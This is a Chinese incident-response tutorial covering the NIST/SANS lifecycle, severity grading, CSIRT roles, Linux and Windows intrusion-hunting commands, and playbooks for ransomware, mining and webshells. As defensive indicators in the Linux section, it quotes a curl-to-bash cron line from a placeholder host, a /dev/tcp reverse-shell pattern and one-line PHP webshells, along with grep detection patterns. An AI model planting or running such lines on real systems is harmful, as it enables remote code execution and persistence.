

# 应急响应基础

> 日期：2026-11-04
> 所属大纲阶段：6. 安全工程
> 参考资料：
> - NIST SP 800-61 Rev.2《Computer Security Incident Handling Guide》（`https://csrc.nist.gov/pubs/sp/800/61/r2/final`）
> - RFC 2350《Expectations for Computer Security Incident Response》（CSIRT 服务定义）
> - SANS Incident Handler's Handbook
> - MITRE ATT&CK（攻击者战术与技术知识库，排查持久化时对照）（`https://attack.mitre.org/`）
> - ID Ransomware（`https://id-ransomware.malwarehunterteam.com/`）
> - 《中华人民共和国网络安全法》第 25 条（应急预案与事件报告义务）及《国家网络安全事件报告管理办法》相关要求
> - Linux Privilege Escalation / LFOSS 取证：SANS SIFT、The Sleuth Kit

---

## 1. 应急响应定义与生命周期（NIST 四阶段 / SANS 六步）

**应急响应（Incident Response, IR）**指组织对安全事件进行**检测、分析、遏制、根除、恢复与总结**的成体系过程。NIST SP 800-61 定义四阶段（准备；检测与分析；遏制、根除与恢复；事后活动），SANS 模型将其中的处置展开为遏制/根除/恢复，形成业界熟知的六步流程。本文按 SANS 六步组织并注明对应关系（下文第 3–5 步合起来即 NIST 第三阶段，其余各步与 NIST 阶段一一对应）：



注意两个结构特点：①**准备是起点也是终点**——复盘的改进项全部回流到准备阶段；②遏制/根除/恢复与检测之间是**迭代**关系：处置过程中会不断产生新证据、新发现。

### 六阶段逐段详解（含每阶段输入与输出）

#### 阶段 1：准备（Preparation）

- **做什么**：建团队（CSIRT）、写计划（IRP）、备工具、做演练、建设检测能力（日志集中、告警）。
- **输入**：资产清单、风险评估结果、合规要求。
- **输出**：IRP 文档、联系人树、演练记录、战备物资。
- **要点**：这是唯一"平时"的阶段，决定了后面五个阶段是 30 分钟还是 3 天。

#### 阶段 2：检测与分析（Detection & Analysis）

- **做什么**：汇聚告警→研判（真/假）→定性（什么攻击、影响什么）→分级→初步时间线。
- **输入**：SIEM 告警、日志、外部通报（白帽/监管/合作伙伴）、用户报告。
- **输出**：事件单（编号、级别、初判类型、受影响资产清单）、已固定的证据。
- **要点**：**证据固定优先于一切破坏性动作**（详见第 5.4 节易失性顺序）。

#### 阶段 3：遏制（Containment）

- **做什么**：阻止损害扩大——断网、下线、封号、封 IP、限流。
- **输入**：事件单、定性结论、业务影响评估。
- **输出**：被隔离资产清单、遏制措施记录（含时间点）、更新的时间线。
- **要点**：短期遏制（快而粗暴）与长期遏制（可维持）分开决策；取证需求与断网时机要权衡。

#### 阶段 4：根除（Eradication）

- **做什么**：清除恶意载荷——删后门/账户/持久化、打补丁、改密钥。
- **输入**：完整入侵路径分析（攻击者怎么进来的、待了多久）。
- **输出**：清除清单、补丁/加固记录。
- **要点**：**没找到入口的根除是伪根除**——攻击者会从原路再来。

#### 阶段 5：恢复（Recovery）

- **做什么**：从可信备份重建、恢复业务、加强监控（攻击者常在恢复期二次入侵）。
- **输入**：可信制品（备份镜像/签名镜像/干净制品）、恢复演练预案。
- **输出**：业务恢复确认、恢复期监控记录。
- **要点**：恢复 ≠ 结束；恢复后的系统应带增强监控观察期（如 2–4 周）。

#### 阶段 6：事后复盘（Lessons Learned）

- **做什么**：无指责复盘会、写报告、定改进项、跟踪闭环。
- **输入**：全量时间线、证据、所有阶段的记录。
- **输出**：事后报告（模板见第 11 节）、改进项跟踪表。
- **要点**：2 周内召开（记忆还新鲜）；改进项不闭环等于没复盘。

---

## 2. 事件分级分类

### 2.1 严重程度 P1–P4 定义表

| 级别 | 定义 | 典型场景 | 响应要求 |
|-----|------|---------|---------|
| **P1 严重** | 核心业务中断/生产数据泄露/核心系统被控 | 勒索软件加密生产库、明文数据外泄、核心主机 root 失陷 | 15 分钟拉起响应组，7×24 处置，CTO/管理层通报 |
| **P2 高** | 重要业务受影响或存在明确入侵证据 | webshell 上传成功但未横向、单台服务器挖矿、员工邮箱账号失陷 | 1 小时响应，当日处置进展通报 |
| **P3 中** | 可控的安全事件，无核心影响 | 持续爆破被阻断、钓鱼邮件点击但凭据未泄露（2FA 拦截）、测试环境恶意文件 | 工作时间 4 小时内响应 |
| **P4 低** | 常规告警/未遂攻击 | 端口扫描、垃圾钓鱼邮件未点击、扫描器探测 | 记录归档，趋势分析 |

分级要素：**资产重要性 × 数据敏感度 × 横向扩散程度 × 是否可自愈**。升级条件要写进 IRP：如"P3 发现同一攻击者在多台主机动作 → 升 P2"。

### 2.2 事件类型

| 类型 | 特征 | 关键初判问题 |
|-----|------|------------|
| 勒索软件（Ransomware） | 文件被加密、勒索信（README.TXT） | 家族？有无备份？是否涉及数据窃取（双重勒索）？ |
| 挖矿（Cryptomining） | CPU 飙高、外联矿池（stratum 协议/5555 等端口） | 入口？是否带后门？ |
| 数据泄露（Data Breach） | 数据在暗网/群内流通、异常出流量 | 数据范围？触发 PIPL 通报义务？ |
| Webshell | Web 目录新增可执行脚本 | 上传入口？同类还有哪些？ |
| 钓鱼（Phishing） | 员工收到仿冒邮件/站点 | 多少人收到？几人点击/提交凭据？ |
| 账号失陷（Account Takeover） | 异地登录、异常 OAuth 授权、发垃圾邮件 | 有无 2FA？token 是否被刷新？ |
| DDoS | 入流量激增、服务不可用 | 类型（SYN/UDP/HTTP 慢速）？能否切 CDN 清洗？ |

---

## 3. 准备阶段

### 3.1 事件响应计划（Incident Response Plan, IRP）要素

1. 目的与适用范围（哪些系统/哪些事件类型）；
2. 角色与职责（谁指挥、谁执行、谁对外说话）；
3. 分级标准与升级路径（含越级通道——半夜 P1 直接打给 CTO）；
4. 各类型事件 playbook 索引（见第 8 节）；
5. 沟通计划：内部通报（频率、模板）、对外口径（唯一发言人）、监管通报触发条件；
6. 证据与法律流程（取证授权、保管链、何时报警）；
7. 工具与系统清单（SIEM、EDR、备份、取证包存放位置）；
8. 附录：联系人树（含下班时间）、资产清单链接、网络拓扑图。

IRP 每年评审一次，重大架构变更后临时评审。**检验 IRP 的唯一标准是演练**。

### 3.2 组建 CSIRT：角色分工

| 角色 | 职责 | 备注 |
|-----|------|------|
| 事件指挥官（IC） | 决策断网/恢复、资源调度、对外节奏 | 可以是安全负责人，P1 时高管挂名 |
| 技术处置组 | 取证、排查、清除、恢复 | 系统/网络/开发各至少 1 人 |
| 沟通联络（Comms） | 内部通报、客户/媒体口径起草 | **唯一信息出口**，防止多人说法不一 |
| 法务与合规 | 报警/公证/监管通报/用户告知判断 | PIPL 下数据泄露告知义务 |
| 业务 owner | 业务影响评估、恢复验收 | 不可缺席——恢复决策需要业务视角 |
| 记录员（Scribe） | 全程时间线记录 | P1 必设，事后复盘的生命线 |

小团队可以一人多角，但**指挥与执行必须分开**——指挥官陷进命令行里就没有人在看全局。

### 3.3 Playbook（预案）

Playbook 是"某类事件的标准操作卡"：触发条件 → 初判步骤（具体命令）→ 决策点（断网矩阵）→ 升级条件 → 恢复验证 → 报告模板。与 IRP 的区别：IRP 管"流程与角色"，playbook 管"这类事具体怎么做"。第 8 节给出三个示例。

### 3.4 桌面演练（Tabletop Exercise）

**桌面演练**：不碰真实系统的口头/纸面推演——主持人念情景注入（"现在，备份服务器也被加密了，你怎么办？"），参与者按 IRP 说出动作，记录卡点。

组织方法：

1. 情景设计（用真实行业事件改编，如"周五 22:00 勒索软件，备份也疑似感染"）；
2. 时长 2 小时，参与方：CSIRT 全角色 + 业务 owner + 高管代表；
3. 每隔 15–20 分钟注入一次新变化（升级/媒体来电/客户投诉）；
4. 记录三类问题：**不知道**（联系人失效）、**做不到**（无备份验证机制）、**没权限**（断网要三級审批）；
5. 会后 1 周内出改进项清单，下次演练验证。

频率：每季度一次小场景，每年一次高管参与的大场景。

### 3.5 备战资产清单与战备物资

- **资产清单**：主机/服务/域名/证书/密钥台账（SBOM 见 31 篇），含"重要性分级"——P1 响应时靠它确定优先排查面；
- **取证工具包**：预先准备并验证过的 U 盘/镜像：LiME（内存抓取）、busybox 静态编译（被感染系统的系统命令可能不可信）、SIFT/CAINE 发行版、Hash 工具、隔离交换机；
- **备用通信**：攻击者可能监控企业微信/邮箱——预建独立信道（备用群、个人手机号联系树）；
- **离线备份验证**：**离线/不可变备份是勒索事件的最后底牌**；备份必须定期做恢复演练（3-2-1 原则：3 份副本、2 种介质、1 份离线），未验证的备份在事故里等于没有。

---

## 4. 检测与分析

### 4.1 告警来源汇聚

告警统一汇入 SIEM（安全信息与事件管理，Security Information and Event Management，见 `28-日志分析与-SIEM.md`）：主机日志（auth.log）、WAF/IDS、EDR、云平台操作审计（CloudTrail/ActionTrail）、威胁情报（IP/域名信誉）、外部通报（监管、白帽、客户）。研判入口的唯一化避免"各看各的告警"。

### 4.2 研判方法论：误报排除五问

对每条告警依次回答（能明确回答就不跳步）：

1. **资产是什么**：这台主机/账号跑什么业务？正常行为基线长什么样？
2. **告警上下文**：前后 30 分钟同源日志是什么？（一条"登录成功"单独看无害，前面 500 次失败就是爆破成功）
3. **能否复现/验证**：IP 反查情报、域名 whois、样本哈希查多引擎；正则匹配出的"恶意"是否是业务正常模式？
4. **横向证据**：同告警在其他主机/账号出现过吗？（单点=可能误报，多点=事件）
5. **谁受影响**：涉及的数据/权限范围是什么？

五问答完还判不了 → 按可疑处理，进入受控取证，**宁可白忙不可放过**。

### 4.3 事件定性

把"有个告警"变成"这是 XX 攻击的 XX 阶段"：对照 MITRE ATT&CK 战术（初始访问→执行→持久化→提权→横向→外泄），标注当前观察到的技术 ID。定性的价值：决定用哪个 playbook、推断攻击者下一步（看到持久化就要假设凭据已失窃）。

### 4.4 证据固定：易失性数据顺序（Order of Volatility）

**证据固定的优先级 = 数据消失的速度**。RFC 3227 的经典排序，从最易失到最不易失：

```
1. 寄存器/缓存        （秒级即逝，一般不单独取）
2. 内存（RAM）        ← 关机即毁；webshell 密码、解密密钥、进程注入痕迹都在这
3. 网络状态/连接      ← ss/lsof 快照
4. 进程/线程信息      ← /proc 快照（进程死了就没了）
5. 磁盘数据          ← 相对持久，最后取
6. 远程日志/备份      ← 最持久
```

**为什么这个顺序是铁律**：最常见事故是管理员一来就 `shutdown` 或 `reboot`——内存证据全毁，而内存里恰恰有：恶意进程的完整命令行、解密密钥、注入的 shellcode、已建立但未落盘的连接。**除非正在被持续破坏且业务无法承受，否则先取证再断电**。

内存取证实操（准备好的工具，不是现场下载——被入侵主机上联网下载会污染证据且可能被劫持）：

```bash
# 用准备好的 U 盘上的 LiME 抓内存（环境：Ubuntu 22.04，提前编译对应内核版本）：
insmod lime-6.8.0-45.ko "path=/mnt/usb/host1.mem format=lime"
# 事后用 volatility3 分析（在分析机上，不在被入侵机上）：
# vol -f host1.mem windows.pslist / linux.pslist   列进程
# vol -f host1.mem linux.sockstat                 网络连接（LiMe 抓的 Linux 镜像用 linux.sockstat；
#                                                  windows.netscan 仅适用 Windows 内存镜像）
```

### 4.5 时间线（Timeline）建立方法

把所有事件（告警、日志、处置动作）按统一时间（UTC 或统一时区，注明）排成序列：

- 来源：主机日志、WAF、云审计、告警平台、**处置人员的每一步操作**（记录员负责）；
- 方法：以"最早异常"为起点向后梳理，同时以"发现时间"向前回溯（攻击者通常已潜伏）；
- 工具：初学者用共享表格（时间/来源/事件/证据指针四列）即可；进阶用 Timesketch/Plaso；
- 时间线是复盘报告与监管通报的骨架（模板见第 11 节）。

---

## 5. 遏制策略

### 5.1 短期遏制 vs 长期遏制

| | 短期遏制 | 长期遏制 |
|--|--------|---------|
| 目标 | 止血，争取分析时间 | 可持续的安全状态 |
| 动作 | 拔网线/安全组只留管理口/封 IP/禁账号 | VLAN 隔离、凭据全量轮换、补丁、重建 |
| 代价 | 影响业务、可能惊动攻击者 | 慢但彻底 |

**断网 vs 保留环境取证的权衡**：断网保护了其他资产，但攻击者可能感知后销毁证据（自删除脚本）；完全保留环境则攻击者继续行动。折中方案常见三种：①**只断出不断入**（隔离外联，保留管理通道观察）；②先快速镜像磁盘+内存再断网（有预排练才能做到快）；③蜜罐化（对高危但非核心资产）。决策权在事件指挥官，权衡要素：资产重要性、扩散速度、取证价值、业务承受力。

### 5.2 隔离的层级

| 层级 | 动作 | 适用 |
|-----|------|------|
| 网络隔离 | 安全组/NACL 只留跳板口、拔线、VLAN 迁移 | 主机失陷、蠕虫 |
| 账号隔离 | 禁用账号、吊销 token/OAuth 授权、强制下线 | 账号失陷 |
| 服务隔离 | 下线该服务/路由摘除、WAF 封路径 | webshell、应用漏洞被利用 |
| 进程隔离 | kill 进程（治标，必须配合排查持久化） | 挖矿单进程 |

### 5.3 遏制决策矩阵

| 情形 | 首选动作 |
|-----|---------|
| 勒索正在加密（活动进程） | 立即断网（业务已毁，保住其他资产优先） |
| webshell、无横向迹象 | 隔离该主机出网 + 保持服务观察，先取证 |
| 挖矿、单机 | 断外联（保内网），溯源入口 |
| 账号失陷 | 禁号 + 吊销所有会话/token + 改密 + 检查 OAuth 授权 |
| DDoS | 切换 CDN/清洗中心，封源（见类型表） |
| 核心数据库疑似被控 | 权衡：断库影响全站 vs 继续被拖——通常限权（只读/封外网出口）+ 紧急取证 |

---

## 6. Linux 入侵排查实战手册（本篇核心）

> 环境：Ubuntu/Debian/CentOS 通用，命令以 Ubuntu 22.04 为准。
> 原则：**不信任被入侵主机上的任何二进制**——优先用自带静态工具包；所有输出的时间注意统一时区；每条命令结果留档（`| tee /mnt/usb/xxx.log`）。

### 6.1 进程排查

```bash
# 1. 总览：CPU/内存排序
top -b -n 1 | head -30
ps auxf | tee /mnt/usb/ps_auxf.txt

# 输出解读（可疑信号）：
# USER  PID  %CPU  %MEM  ...  COMMAND
# www    1234 98.7   0.5      /tmp/kdevtmpfsi            <- 名字伪装内核线程，藏 /tmp，挖矿典型
#           ↑ CPU 接近 100 且名字陌生 = 第一嫌疑
# systemd-logind 之类内核线程出现在非 root 用户下也异常

# 2. 追进程真身：/proc/<PID>/exe（即使二进制被删也能看到）
ls -l /proc/1234/exe
# lrwxrwxrwx ... /proc/1234/exe -> '/tmp/.x11/kworker (deleted)'   ← 已删除仍运行 = 强烈恶意信号

# 3. 完整命令行与环境变量（常藏着 C2 地址/配置）：
cat /proc/1234/cmdline | tr '\0' ' '; echo
cat /proc/1234/environ | tr '\0' '\n'
# 4. 进程工作目录与启动者：
ls -l /proc/1234/cwd
ps -o user,pid,ppid,lstart,cmd -p 1234

# 5. 隐藏进程检测（对比 /proc 与 ps 输出——rootkit 可能挂钩 ps）：
ls -d /proc/[0-9]* | sed 's|/proc/||' | sort -n > /mnt/usb/proc_pids.txt
ps -e -o pid= | sort -n > /mnt/usb/ps_pids.txt
diff /mnt/usb/proc_pids.txt /mnt/usb/ps_pids.txt
# diff 出现在 /proc 有而 ps 无的 PID = 可能被 rootkit 隐藏，重点核查

# 6. 父子关系找注入： pstree -ap（kworker 的父进程是 bash/sshd = 异常）
pstree -ap | tee /mnt/usb/pstree.txt
```

### 6.2 网络排查

```bash
# 1. 监听端口与对应进程：
ss -antlp | tee /mnt/usb/ss.log
# State  Recv-Q  Local Address:Port   Peer Address:Port   Process
# LISTEN 0       0.0.0.0:5555          0.0.0.0:*           users:(("xmr",[pid=1234]))
# 解读：陌生端口 + 陌生进程 = 后门监听；5555 常见矿池/IRC

# 2. 已建立连接（找可疑外联）：
ss -antp state established
lsof -i -P -n | grep ESTABLISHED
# 解读：Web 服务器主动连境外 IP 的 4444/8080 = 反弹 shell 特征；
#      7777/3333/5555/14444 等端口 + 持续流量 = 矿池（stratum+tcp）

# 3. 按进程看流量走向：
lsof -i -P -n -p 1234

# 4. 抓包确认外联内容（仅短时抓取）：
tcpdump -i any -nn -c 200 'not port 22' -w /mnt/usb/out.pcap
# 分析机上看：tcpdump -r out.pcap -A | grep -i "stratum\|login\|miner"
```

### 6.3 账号排查

```bash
# 1. 找 UID=0 的账号（除 root）：
awk -F: '($3==0)&&($1!="root"){print}' /etc/passwd
# 输出任何一行都是后门账号！

# 2. 找能登录的账号与新增账号：
awk -F: '($7 !~ /nologin|false/){print $1, $3, $7}' /etc/passwd
ls -lt /etc/passwd /etc/shadow /etc/sudoers*   # 文件修改时间是"新增时间"线索

# 3. sudo 提权配置：
cat /etc/sudoers /etc/sudoers.d/* | grep -v '^#\|^$'
# 解读：出现  ALL=(ALL) NOPASSWD: ALL  且不是已知管理员 = 后门

# 4. 登录历史：
last -F | head -30        # wtmp：成功登录（含来源 IP）
lastb -F | head -30       # btmp：失败登录（爆破痕迹）
lastlog                   # 每个账号最近登录
# 解读：陌生 IP/异常时间的 root 登录；大量失败后紧跟成功 = 爆破成功

# 5. SSH 后门密钥：
cat /root/.ssh/authorized_keys ~/.ssh/authorized_keys /home/*/.ssh/authorized_keys 2>/dev/null
# 解读：陌生公钥（尤其是"没有注释/奇怪注释"的）= 攻击者私钥可永久登录
# 同时检查 /etc/ssh/sshd_config 是否被改：
grep -Ei 'PermitRootLogin|AuthorizedKeysFile|PermitEmptyPasswords|Port ' /etc/ssh/sshd_config
```

### 6.4 持久化排查（对照 MITRE ATT&CK Persistence 战术）

```bash
# 1. 计划任务：
crontab -l; crontab -u www -l                     # 各用户
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /var/spool/cron/crontabs/
# 解读：任何 curl|bash、指向 /tmp /dev/shm 的任务行都高度可疑：
# */5 * * * * curl -s http://x.x.x.x/s.sh | bash    ← 典型挖矿持久化

# 2. systemd 服务与定时器：
systemctl list-units --type=service --state=running
systemctl list-timers --all
ls -l /etc/systemd/system/ /usr/lib/systemd/system/ | head -50
# 重点看最近修改的 .service：ExecStart 指向 /tmp、/dev/shm、隐藏目录 = 恶意
find /etc/systemd /usr/lib/systemd -name '*.service' -mtime -30 2>/dev/null

# 3. 传统 rc 与 shell 配置：
cat /etc/rc.local
grep -nEi 'curl|wget|nc |bash -i|/tmp/' /root/.bashrc /etc/profile /etc/bash.bashrc /home/*/.bashrc
# .bashrc 里出现反弹 shell（bash -i >& /dev/tcp/...）或 curl 下载 = 登录即中毒

# 4. SUID 文件（提权后门）：
find / -perm -4000 -type f 2>/dev/null | tee /mnt/usb/suid.txt
# 与干净基线对比：合法 SUID 常见为 sudo/passwd/mount/su/ping/chsh/fusermount 等；
# 出现在 /tmp、用户目录，或新增的 bash/find 副本带 SUID = 提权后门（如 /usr/bin/find 带 SUID 可执行任意命令）

# 5. 动态链接库劫持：
grep -r "LD_PRELOAD" /etc/ld.so.preload /etc/environment /etc/profile.d/ 2>/dev/null
cat /etc/ld.so.preload 2>/dev/null
# ld.so.preload 指向陌生 .so = 用户态 rootkit 常用手法（劫持 ls/ps 隐藏自身）
env | grep -i preload
```

### 6.5 文件排查

```bash
# 1. 近期修改的文件（按时间圈定攻击窗口）：
find / -mtime -3 -type f 2>/dev/null | grep -vE '^/(proc|sys|run|var/log)' | head -100
# 更精确按分钟：find /var/www -cmin -240 -type f

# 2. 常见藏毒目录：
ls -la /tmp /dev/shm /var/tmp /run
# 解读：隐藏目录（名称以 . 开头）、无扩展可执行文件、名字伪装（.ICE-unix）
file /tmp/.x11/kworker  # 确认是否 ELF 可执行

# 3. webshell 查找（特征 grep 大法）：
grep -rn --include="*.php" -E "eval\s*\(|assert\s*\(|base64_decode|system\s*\(|passthru|shell_exec|gzinflate" /var/www/ | tee /mnt/usb/webshell.txt
# 解读（典型输出）：
# /var/www/uploads/avatar_1024.php:1: <?php @eval($_POST['cmd']);       ← 一句话木马
# /var/www/html/old.php:3: $f=base64_decode($_POST['a']);system($f);    ← 变形
# 注意：现代 webshell 常混淆（变量函数 $a($_POST[...])、goto 混淆、.htaccess 解析 tricks），
# grep 之外用工具：河马/刃（国内）、d盾、开源的 webhook 或 falcon-eye；对无扩展名/非常规后缀
# （.php5/.phtml/.pht，nginx+php 的 pathinfo 混淆）也要扫。

# 4. 新增可执行文件全盘核对（粗筛）：
find / -type f -executable -mtime -7 2>/dev/null | grep -vE '^/(proc|sys|usr/bin|usr/sbin|usr/lib|bin|sbin|lib|snap)' | head -50
```

### 6.6 日志分析

要点承接 `28-日志分析与-SIEM.md`，入侵场景下优先看：

```bash
# /var/log/auth.log（Ubuntu；CentOS 为 /var/log/secure）：
grep -E "Accepted|Failed password" /var/log/auth.log | head -40
# 解读：短时间大量 Failed + 一条 Accepted = 爆破成功，记下时间与来源 IP
grep "session opened" /var/log/auth.log

# Web 访问日志回溯上传入口：
grep -E "POST.*(upload|avatar|file)" /var/log/nginx/access.log | grep " 200 "
# 配合 webshell 文件的 mtime 前后 5 分钟的请求逐条看（见 8.3 playbook）
# 历史：zgrep "Accepted" /var/log/auth.log.*.gz
```

### 6.7 Rootkit 检查

```bash
# rkhunter（安装：apt install rkhunter；更新库：rkhunter --update）
rkhunter --check --sk | tee /mnt/usb/rkhunter.log
# 解读：[ Warning ] 行是疑点，常见误报（可疑但合法的隐藏文件/过时库）要人工判断；
# "Rootkit checks" 段出现 X 为检测到特征——此时该机的系统命令已不可信。

chkrootkit | tee /mnt/usb/chkrootkit.log

# 重要认知：用户态 rootkit 检测可用上述工具；内核态 rootkit（LKM）一旦加载，
# 本机任何工具输出都可被篡改——结论可信度存疑时，应：拔盘挂载到干净分析机排查，
# 或直接重建主机（保留磁盘镜像作证据）。
```

---

## 7. Windows 排查要点

- **进程**：任务管理器 + **Process Explorer**（Sysinternals）看签名与父子链；`tasklist /svc`、`wmic process get name,processid,commandline`；
- **网络**：`netstat -ano`（对照 PID）、Resource Monitor；
- **事件日志（eventvwr）关键 ID 回顾**（承接日志分析篇）：
  - `4624/4625` 登录成功/失败（Logon Type 3=网络、10=RDP）；`4720` 新增用户；`4728/4732` 加入管理员组；`7045` 新服务安装（挖矿/后门常见）；`4688` 进程创建（需开审核策略）；`1102` 审计日志被清空（本身即重大警讯）；`4769` Kerberos 票据（Kerberoasting 特征 RC4 加密）；
- **autoruns**（Sysinternals）：一键枚举全部自启动项（注册表 Run 键、服务、计划任务、WMI 订阅），与基线比对新增项；
- **常见持久化位置清单**：

| 位置 | 说明 |
|-----|------|
| `HKCU\...\Run` / `HKLM\...\Run`、`RunOnce` | 注册表自启动 |
| `shell:startup`（开始菜单启动文件夹） | 用户/公共启动目录 |
| 计划任务 `taskschd.msc` | 挖矿首选 |
| 服务 `services.msc` |伪装系统服务的后门 |
| WMI 事件订阅 | 高级持久化（autoruns 可见） |
| 映像劫持 IFEO、DLL 劫持 | 高级技巧 |
| `C:\Users\*\AppData\Roaming\Temp` 等临时目录 | 载荷常见落地点 |

- 取证工具：KAPE、Volatility3（内存）；快速导出日志用 `wevtutil epl Security evtx.save`。

---

## 8. 常见事件 Playbook（三个）

### 8.1 勒索软件

```
1. 断网：立即隔离感染主机（含同网段可疑主机），勒索活动中速度优先于取证
2. 定家族：用勒索信/加密文件样本上传 ID Ransomware（id-ransomware.malwarehunterteam.com）
   -> 确定家族，查该家族是否为双重勒索（窃取+加密）与是否有公开解密器（如早期部分家族被执法破解）
3. 不用密钥先取证：不动被加密数据（改写会破坏已知明文攻击的可能）；
   固定勒索信、内存（可能提取加密密钥）、加密文件样本的哈希留档
4. 备份恢复决策树：
   - 有验证过的离线备份 -> 从备份重建（首选），绝不支付
   - 备份被加密/不存在 -> 管理层决策（支付违反合规与资助犯罪的风险 vs 业务死亡），
     决策前先穷尽：是否有异地副本/云快照（含"误删保护"策略）/云对象存储版本控制
5. 恢复前必须找到入侵入口（否则恢复=再被勒索一次），见根除章节
```

### 8.2 挖矿

```
1. 找进程：top/ps（CPU 异常）；/proc/PID/exe 定位真身；收集命令行/环境变量（常含矿池）
2. 父进程：pstree/ps -o ppid 追到启动者 —— 这是入口线索：
   父是 kubelet/dockerd -> 可能是容器逃逸/暴露的 Docker API 2375
   父是 php-fpm/nginx -> Web 漏洞（多半伴随 webshell，继续 6.5 排查）
   父是 sshd -> 爆破/凭据泄露（回看 auth.log）
3. 持久化排查（6.4 全套）：cron/systemd/计划任务几乎必有
4. 失陷入口回溯：按 6.6 日志回溯到最早异常；修复入口后才算处置完成
5. 注意：挖矿常是"伴生"攻击，确认有没有留下更隐蔽的后门（挖矿是烟雾弹的案例很多）
```

### 8.3 Webshell

```
1. 定位文件：6.5 特征 grep + 工具扫描；结合 mtime 圈定可疑窗口
2. 日志回溯上传入口：
   grep "<webshell路径>" access.log                       # 首次访问时间（上传后验证）
   再看同 IP 该时间前后 5 分钟的全部请求                    # 找上传请求（POST upload）
   -> 得到漏洞接口（如 /api/upload 未校验后缀）
3. 同类扫描：同一漏洞可能被用于多台主机，全量 Web 目录扫描 + WAF 日志全局搜该 IP/UA
4. 修补：修上传漏洞（见 30 篇 6.1 清单）+ 删除 webshell + 排查 webshell 期间执行的命令
   （www 用户下 6.1–6.4 全套：webshell 之后的提权与持久化才是重点）
5. 假定数据已可被读取：评估该主机上配置文件/数据库凭据是否需要轮换（见 32 篇 playbook）
```

---

## 9. 根除与恢复

### 9.1 补丁 / 改密 / 重建 vs 清理 决策

| 情形 | 建议 |
|-----|------|
| 明确单点入侵、无提权痕迹、有完整审计 | 定向清理（删载荷+补漏洞+改凭据）+ 增强监控 |
| root 权限失陷 / 检出内核态 rootkit / 无法确定滞留时长 | **重建**（重装或镜像重推），数据走备份恢复 |
| 攻击者建了多个未知后门 | 重建；清理不可信 |

**决策倾向**：能重建就重建。清理的风险是"漏掉一个持久化"；重建的风险是"丢配置"——前者是安全事故，后者是运维事故。

### 9.2 恢复验证

- 从**可信制品**（验证过签名的镜像/离线备份）重建，**不是**从可能被污染的快照；
- 恢复后：补丁已是最新、凭据全换（含该主机上保存的一切——数据库密码、SSH key、API key，参照 32 篇轮换）、加固项落实；
- 上线前验证：业务功能、备份已重新建立（很多组织恢复后忘了立即做新备份，且要保证新环境干净）。

### 9.3 加固清单（防二次入侵）

- 修复根因漏洞（入口）；
- 最小暴露面：关公网管理端口、跳板机访问；
- 凭据轮换与密钥管理落地（32 篇）；
- 补检测盲区：这次事件是哪个日志/告警缺失导致晚发现的，补上。

---

## 10. 事后复盘

### 10.1 复盘会议规则：无指责文化（Blameless）

- **原则**：假设所有人当时都做了"信息约束下的合理决策"，针对**系统与流程**而非个人找改进点；
- 原因：指责文化导致**隐瞒与延迟上报**——下一次事件会从"早 2 小时发现"变成"晚 2 天发现"，这才是最大的安全损失；
- 会前：时间线初稿发全员；会中：记录员逐条过时间线，问"我们在哪个环节本可以更早发现/更早阻断"；会后 1 周出报告。
- 时间：事件关闭后 2 周内，P1 必须 72 小时内。

### 10.2 事后报告模板（全文骨架）

```markdown
# 安全事件复盘报告：<事件编号-名称>
## 1. 摘要
   一段话：什么时间、什么事件、影响什么、现状如何、根因一句话。
## 2. 时间线（UTC+8）
   | 时间 | 事件 | 来源/证据 | 备注 |
   |------|------|----------|------|
   | 10-31 02:14 | 攻击者首次爆破成功 | auth.log L10234 | 入口 |
   | 10-31 02:16 | 新增后门账号 ops2 | /etc/passwd mtime | |
   | 11-01 09:40 | CPU 告警触发 | 监控 | 首次可见信号（距入侵 31h）|
   | 11-01 10:05 | 值班确认挖矿，开事件单 P2 | 值班记录 | |
   | ...（处置每步动作）... |
## 3. 影响
   - 业务：XX 服务中断 40 分钟
   - 数据：评估结论（含"未发现数据外泄"及其依据）
   - 资产：3 台主机重建、1 个账号吊销
## 4. 根因分析（RCA 五问）
   1. 直接原因是什么？（Redis 未授权访问 + root 运行）
   2. 为什么漏洞存在？（变更流程未走安全评审）
   3. 为什么没拦住？（防火墙策略例外长期未复审）
   4. 为什么没早发现？（主机侧 CPU/外联告警未覆盖该网段）
   5. 流程哪里缺失？（对外服务暴露无台账）
## 5. 处置过程评估
   做得好：X 分钟拉起响应组；备份恢复一次成功
   待改进：断网决策耗时 40 分钟（审批链路过长）；取证工具不齐备临时下载
## 6. 改进项跟踪表
   | # | 改进项 | 类型 | Owner | 截止 | 状态 |
   |---|-------|------|-------|------|------|
   | 1 | Redis 全网加认证+最小权限 | 根因修复 | 张三 | 11-15 | 进行中 |
   | 2 | 暴露面台账建设 | 检测 | 李四 | 12-01 | 待开始 |
   | 3 | 断网决策授权写入 IRP | 流程 | 王五 | 11-10 | 完成 |
```

### 10.3 改进项闭环机制

- 每项改进有唯一 owner 与截止日期，进项目管理工具（与业务需求同池）；
- 每月安全例会过一遍未关闭项；超期升级到管理层；
- 下次桌面演练抽取上次事件的改进项做验证（"Redis 加认证了吗？"）；
- **没有闭环机制的复盘会在第六次产生"这个改进项上次就提过"的绝望感**。

---

## 11. 取证链与法律

### 11.1 证据保管链（Chain of Custody）

从证据被收集到呈堂/提交的每一手交接都记录：**谁、何时、对证据做了什么、哈希值**。操作规范：

- 固定证据立即算哈希（`sha256sum host1.mem > host1.mem.sha256`），此后任何操作前后校验哈希不变；
- 证据介质（U 盘/盘）贴标签编号、锁柜存放、双人交接签字；
- 分析永远在**副本**上做，原件封存。

### 11.2 镜像取证一句话

对磁盘做**位对位镜像（dd / E01）**后再分析，绝不在原始盘上操作：`dd if=/dev/sda of=/mnt/usb/sda.img bs=4M conv=noerror,sync`（记录前后哈希）。

### 11.3 国内语境：报警与公证

- **何时报警**：勒索（金额较大）、数据窃取、敲诈、明确的破坏行为——《网络安全法》与《刑法》285/286 条（非法侵入/破坏计算机信息系统罪）提供依据；报警后警方立案可对攻击溯源与资金流向追查；
- **公证**：数据泄露内容出现在公开渠道（暗网帖/群聊截图）时，公证处的**证据保全公证**把网页/聊天记录固定为法律证据；
- **监管通报**：按《国家网络安全事件报告管理办法》要求，较大及以上事件需向主管部门报告（有明确时限要求的，如重大事件 1 小时内），PIPL 语境下个人信息泄露需通知监管部门与个人——**法务在事件响应中不是旁观者**；
